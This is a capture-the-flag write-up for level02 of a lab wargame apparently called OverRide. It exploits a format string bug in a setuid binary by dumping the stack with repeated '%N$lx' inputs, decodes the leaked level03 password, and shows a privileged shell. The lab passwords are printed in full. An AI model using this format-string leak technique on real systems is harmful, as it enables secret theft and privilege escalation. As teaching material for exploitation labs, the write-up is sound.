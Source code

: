## TLTR;
Format string reading (attack) - read the content of `pass` buffer on the stack
***

Log into level02
```shell
┌──$ [~/42/2022/override]
└─>  ssh -p 4242 192.168.56.101 -l level02
     ____                  ____  _     __
    / __ \_   _____  _____/ __ \(_)___/ /__
   / / / / | / / _ \/ ___/ /_/ / / __  / _ \
  / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
  \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level02@192.168.56.101's password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
The binary file located in home directory of `level02` is an 64-bit executable.
```shell
level02@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```
It contains only one user defined function `main()`

Executable open a `.pass` file of `level03` and read 41 bytes of data from the stream pointed to by the `fd`, storing them at the location given by first pointer to `buff`. It replace last character `\n` with `\0` and check that letght of buffer is equal to 41.

Then, it invite user to input username and password. So it reads in at most one less than 100 characters from `stdin` and stores them into the buffer pointed to by `username` and `password`. Once input is entered it replace `\n` with `\0`.

Finally, it compares user's password to password read from the file. If it match, it open a new process runnign a shell.
In case if password do not match, it ouputs username and message that it _does not have access!_.

Here `printf()` is ussed is such way that input string is evaluated as a command by the application, which is know as [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack). As the password still in the memory, it can be retrieved by passing to `printf()` a conversion specifier `%x`.

As password is stored in the buffer and FSA can be performed, read the stack using long conversion specifier `%lx` (as binary is an 64-bytes).

```shell
level02@OverRide:~$ for i in {0..26}; do python -c "print('%$i\$16lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 
```
Convert hexadecimal value to ASCII within Python
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"))
****************unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
```
The password is incorrect.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
level03 does not have access!
level02@OverRide:~$
level02@OverRide:~$ su level03
Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
su: Authentication failure
```
The system and the binary are in Little endian configuration.
```shell
level02@OverRide:~$ lscpu | grep 'Byte Order'
Byte Order:            Little Endian
level02@OverRide:~$ readelf -h ./level02 | grep Data
  Data:                              2's complement, little endian
```
So the order of bytes need to be adjust.
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348"))
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, level03!
$ id
uid=1002(level02) gid=1002(level02) euid=1003(level03) egid=100(users) groups=1003(level03),100(users),1002(level02)
$ cat /home/users/$(whoami)/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
